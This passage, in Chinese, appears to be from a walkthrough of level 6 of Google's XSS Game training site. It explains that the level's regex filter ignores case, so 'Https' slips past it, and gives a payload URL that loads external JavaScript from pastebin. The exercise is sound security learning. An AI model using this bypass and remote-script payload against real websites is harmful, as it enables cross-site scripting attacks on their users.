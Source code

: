 但是正则忽略了大小写问题，使用 `Https` 即可绕过。

这里使用 [pastebin](https://pastebin.com) 来存储外部js

payload

```
https://xss-game.appspot.com/level6/frame#Https://pastebin.com/raw/XYc57a0A
```

成功弹框


# 参考
---
- [google Cross-site scripting learning](https://www.google.com/about/appsecurity/learning/xss/index.html)




